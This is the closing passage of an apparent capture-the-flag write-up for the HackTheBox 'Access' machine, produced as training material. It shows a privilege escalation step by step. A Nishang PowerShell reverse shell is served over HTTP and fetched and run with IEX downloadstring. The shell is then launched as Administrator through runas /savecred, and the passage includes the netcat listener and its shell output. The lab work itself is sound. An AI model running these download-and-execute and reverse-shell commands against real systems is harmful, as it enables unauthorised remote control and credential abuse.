

Read the result:

```bash
type C:\Users\Public\root.txt
```



**Root flag captured.**

---

### Step 12 — Full Administrator Shell via Nishang

**Goal:** Establish an interactive shell running as Administrator rather than just redirecting output.

Capturing a flag via file redirect proves the technique but leaves you with no interactive session. For a complete compromise, use the same `runas /savecred` mechanism to deliver a PowerShell reverse shell.

Nishang is a collection of offensive PowerShell scripts. `Invoke-PowerShellTcp.ps1` creates a TCP reverse shell. Copy it and add the invocation call at the very end of the file so it fires automatically on load:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.107 -Port 4443
```

Placing this at the bottom means the function executes the moment the script is loaded via IEX — no separate invocation step needed.



Serve the script:

```bash
python3 -m http.server 80
```



Start a listener:

```bash
nc -lvnp 4443
```

Confirm delivery as `security` first:

```bash
powershell "IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.107/nishang.ps1')"
```

`IEX` is `Invoke-Expression` — it executes a string as a PowerShell command. `New-Object Net.WebClient` creates an HTTP client. `.downloadstring()` fetches the script. IEX executes it. The function call at the bottom fires and connects back.

Listener receives:

```
Windows PowerShell running as user security on ACCESS
PS C:\Users\Public\Desktop> whoami
access\security
```



Shell as `security` confirmed. Now run the same delivery through `runas /savecred`:

```bash
runas /user:ACCESS\Administrator /savecred "powershell IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.107/nishang.ps1')"
```



Listener receives a second connection:

```
Windows PowerShell running as user Administrator on ACCESS
PS C:\Windows\system32> whoami
access\administrator
```



Full interactive Administrator shell. Machine fully owned.

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

Shell obtained as `ACCESS\Administrator` via `runas /savecred` abusing a Credential Manager entry created by the ZKAccess3.5 shortcut.

---

## 📌 Conclusion

* **Anonymous FTP is a critical finding in every penetration test** — the number of real environments where someone enabled anonymous FTP and forgot about it is not small. Files left on FTP shares are routinely sensitive: database backups, configuration files, email archives. Always check it first.

* **Binary mode is not optional for non-text files** — FTP's ASCII mode silently corrupts binary files with no error messages. The transfer appears to succeed. The file is damaged. Zip files, executables, databases, images — all require `binary` mode before downloading. Get into the habit before every transfer.

* **Legacy file formats hold live credentials** — MDB and PST are old formats that appear constantly on Windows servers running for years. The access control database had plaintext passwords. The Outlook archive had a credential email. Neither is exotic. Real engagements find exactly this.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>